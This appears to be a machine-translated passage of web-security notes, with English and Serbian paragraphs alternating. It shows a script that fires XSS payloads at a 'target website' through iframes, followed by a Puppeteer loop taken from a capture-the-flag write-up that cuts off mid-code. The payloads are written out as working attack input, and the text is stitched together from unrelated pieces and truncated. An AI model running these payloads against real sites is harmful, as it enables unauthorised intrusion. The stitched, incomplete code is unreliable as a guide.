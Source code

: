 To achieve this, you can use JavaScript to automatically load and execute the payloads in the browser. By injecting the necessary code into the target website, you can trigger the execution of the payloads without manual intervention.

Da biste to postigli, možete koristiti JavaScript da automatski učitate i izvršite payloade u pretraživaču. Ubacivanjem odgovarajućeg koda na ciljni veb sajt, možete pokrenuti izvršavanje payloada bez ručnog intervencije.

Here is an example of how you can achieve automatic browser access to test payloads:

Evo primera kako možete postići automatski pristup pretraživaču za testiranje payloada:

```javascript
<script>
  // Define an array of payloads
  var payloads = [
    "<script>alert('XSS');</script>",
    "<img src='x' onerror='alert(\"XSS\")'>",
    "<svg onload='javascript:alert(\"XSS\")'></svg>"
  ];

  // Loop through the payloads and load them in the browser
  for (var i = 0; i < payloads.length; i++) {
    var iframe = document.createElement("iframe");
    iframe.src = "https://target-website.com/?payload=" + encodeURIComponent(payloads[i]);
    document.body.appendChild(iframe);
  }
</script>
```

This code snippet creates an array of payloads and then loops through each payload, creating an iframe element for each one. The iframe's source is set to the target website with the payload as a query parameter. By appending the payload to the URL, the browser will automatically load and execute the payload.

Ovaj kodni odlomak kreira niz payloada, a zatim prolazi kroz svaki payload, stvarajući iframe element za svaki od njih. Izvor iframa se postavlja na ciljni veb sajt sa payloadom kao parametrom upita. Dodavanjem payloada na URL, pretraživač će automatski učitati i izvršiti payload.

By using this technique, you can quickly test multiple payloads and identify any potential XSS vulnerabilities in the target website.

Korišćenjem ove tehnike, možete brzo testirati više payloada i identifikovati potencijalne XSS ranjivosti na ciljnom veb sajtu.

```javascript
//Taken from https://github.com/svennergr/writeups/blob/master/inti/0621/README.md
const puppeteer = require("puppeteer");

const realPasswordLength = 3000;
async function sleep(ms) {
return new Promise((resolve) => setTimeout(resolve, ms));
}

(async () => {
const browser = await puppeteer.launch();
const page = await browser.newPage();
//Loop to iterate through different values
for (let i = 0; i < 10000; i += 100) {
console.log(`Run number ${i}`);
const input = `${"0".repeat(i)}${realPasswordLength}`;
console.log(`  https://challenge-0621.intigriti.io/passgen.php?passwordLength=${input}&allowNumbers=true&allowSymbols=true&timestamp=1624556811000`);
//Go to the page
await page.goto(
`https://challenge-0621.intigriti.io/passgen.php?passwordLength=${input}&allowNumbers=true&allowSymbols=true&timestamp=1624556811000`
);
```